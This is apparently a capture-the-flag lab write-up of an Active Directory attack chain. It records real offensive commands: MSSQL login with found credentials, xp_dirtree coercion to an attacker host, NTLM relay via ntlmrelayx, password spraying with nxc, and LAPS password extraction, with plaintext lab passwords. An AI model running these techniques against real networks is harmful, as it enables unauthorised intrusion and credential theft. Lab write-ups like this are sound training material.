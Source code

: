 
# Enumeration
Enumerating the smb shares of machine #3 we find creds:
![](attachment/dbeac13fcd1fe31943a9ea19ba965951.png)

Using these creds to login to mssql on machine #3 we get other creds:
```
mssqlclient.py web_staging:'Washroom510'@10.10.143.69
```
![](attachment/cf755f5d910fbdadd987c03d781f0e7a.png)

Now password spraying we find other accounts with same password:
![](attachment/0d9438268311add55604fcce9e53df54.png)

Now doing NTLM Relay attack we get hash for an account:
```
exec xp_dirtree "\\10.8.1.208\share"
```
![](attachment/abb91feba1b4fb6d581cc3dc1d97f1c2.png)

Now checking if message signing is disabled:
```
nxc smb 10.10.143.69-71 --gen-relay-list relay.txt
```
![](attachment/2ed881e74f10e1daf811394954d5ff26.png)
It is false

So starting an ntlm relay:
```
ntlmrelayx.py -tf targets.txt -socks -smb2support
```

Now we can access shares
```
proxychains smbclient \\\\10.10.197.101\\prod -U REFLECTION/SVC_WEB_STAGING
```

Now get new creds:
![](attachment/0ddd93e15a60baa6e930a017e12c79ce.png)

Now we can check with mssql on the dc:
![](attachment/9ebefc43d402d5d1fce9b6cdb7f9e9f0.png)
We get passwords from the prod database on DC.
![](attachment/8ed3404b3a9796f6e9d3fd4f7359ef5d.png)

Now trying responder:
![](attachment/4697bfdee9d0e3b48f7bf368b19a8c1b.png)
We get another user.
We cant use nlm relaying as it doesnt work

Now password spraying all passwords we have with the users:
```
nxc smb 10.10.197.101-103 -u users.list -p pass.txt --continue-on-success
```

Now we can use bloodhound:
![](attachment/a84d11fc0d9467d12d5e6944297caaf7.png)

But checking MachineAccountQuota:
![](attachment/892c9e4771584bd6f7673f0ad1f8159d.png)

Now we can try to get laps password
```
nxc ldap reflection.vl -u abbie.smith -p CMe1x+nlRaaWEw -M laps
```
![](attachment/c96c8c5a00cd8df7852ffb99e2b24904.png)

With this password we can try to password spray:
```
nxc smb 10.10.197.101-103 -u users.list -p "H447.++h6g5}xi" --local-auth --continue-on-success
```
![](attachment/1f82a9479f91fa5cf535391204d14400.png)

We got the administrator on ms01